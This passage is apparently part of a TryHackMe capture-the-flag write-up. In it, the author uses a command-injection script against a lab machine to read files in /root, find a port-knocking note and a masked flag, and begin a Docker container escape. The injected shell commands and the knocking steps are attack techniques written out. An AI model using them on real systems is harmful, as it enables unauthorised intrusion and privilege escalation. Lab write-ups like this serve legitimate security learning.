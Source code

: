 It seems that *hydra* has put a flag in the bottom commit...

```
$ python3 url_inject.py "10.10.148.224" "cd /root; git checkout a3d30a7d0510dc6565ff9316e3fb84434916dee8; ls -la"
               HEAD is now at a3d30a7 Added the flag and dev notes
total 40
drwx------ 1 root root 4096 Feb 17 21:18 .
drwxr-xr-x 1 root root 4096 Jan  7 22:14 ..
lrwxrwxrwx 1 root root    9 Jan  6 20:51 .bash_history -> /dev/null
-rw-r--r-- 1 root root  570 Jan 31  2010 .bashrc
drwxr-xr-x 1 root root 4096 Feb 17 21:19 .git
-rw-r--r-- 1 root root   53 Jan  6 20:51 .gitconfig
-rw-r--r-- 1 root root  148 Aug 17  2015 .profile
-rw-r--r-- 1 root root  213 Feb 17 21:18 dev-note.txt
-rw-r--r-- 1 root root   75 Feb 17 21:18 flag.txt
```

The above shows that there are two text files; a flag (thank god) and a previous version of *dev-note*.

```
$ python3 url_inject.py "10.10.148.224" "cd /root; cat dev-note.txt"
Hey guys,

I got tired of losing the ssh key all the time so I setup a way to open up the docker for remote admin.

Just knock on ports 42, 1337, 10420, 6969, and 63000 to open the docker tcp port.

Cheers,

Hydra
```

```
$ python3 url_inject.py "10.10.148.224" "cd /root; cat flag.txt"
               You found the root flag, or did you?

THM{0cb**************************876}`
```

### The Great Escape

*You thought you had root.  But the root on a docker container isn't all that helpful.  Find the secret flag.*

Unfortunately, there is no hint for this one.  Great.  Looking back at the output from *dev-note.txt*, in the previous section, it looks like we can use port knocking on ports 42, 1337, 10420, 6969, and 63000 to check for a docker tcp port.

```
$ curl 10.10.148.224:<port> -m 1
```

I checked this worked with `nmap`, but no port opened.  I then used the same port knocking technique with `netcat` and it opened port 2375.  
